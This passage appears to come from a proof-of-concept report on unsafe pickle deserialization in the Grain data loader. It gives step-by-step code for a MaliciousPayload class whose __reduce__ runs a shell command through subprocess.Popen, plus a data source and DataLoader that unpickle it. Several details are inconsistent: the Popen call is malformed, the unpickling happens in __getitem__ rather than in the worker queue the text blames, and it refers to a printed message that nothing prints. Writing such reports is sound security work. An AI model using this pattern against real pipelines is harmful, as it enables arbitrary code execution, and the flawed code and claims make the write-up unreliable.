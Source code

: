     class MaliciousPayload:
        def __reduce__(self):
            import subprocess
            return (subprocess.Popen, (('touch /tmp/pwned',),))

    payload = MaliciousPayload()
    serialized_payload = base64.b64encode(pickle.dumps(payload)).decode()
    ```

    2. **Create a Data Source that Injects Payload:** Create a custom `InMemoryDataSource` that returns the malicious serialized payload as a data element.

    ```python
    class MaliciousDataSource(grain.RandomAccessDataSource):
        def __init__(self, payload):
            self._payload = payload
            self._len = 1

        def __len__(self):
            return self._len

        def __getitem__(self, index):
            return pickle.loads(base64.b64decode(self._payload)) # Deserialize payload
    ```

    3. **Create a DataLoader Pipeline:** Create a simple `DataLoader` pipeline that uses the malicious data source. This pipeline simulates a scenario where Grain processes data from a potentially untrusted source.

    ```python
    malicious_source = MaliciousDataSource(serialized_payload)
    data_loader = grain.DataLoader(
        data_source=malicious_source,
        sampler=grain.IndexSampler(
            num_records=len(malicious_source),
            shard_options=grain.NoSharding(),
            shuffle=False,
            num_epochs=1),
        worker_count=1 # Enable multiprocessing to trigger queue usage
    )
    ```

    4. **Run the DataLoader and Trigger Exploit:** Iterate through the `DataLoader`. When the malicious payload is deserialized in a worker process, the code execution should be triggered.

    ```python
    for element in data_loader:
        pass # Trigger data loading and processing
    ```

    5. **Verify Code Execution:** Check if the malicious code was executed (e.g., check for the existence of the `/tmp/pwned` file or observe the printed message). If the test case creates `/tmp/pwned`, run `ls -l /tmp/pwned` in shell to verify.

    This test case demonstrates how a malicious payload injected into the data pipeline can lead to code execution due to unsafe deserialization in multiprocessing queues.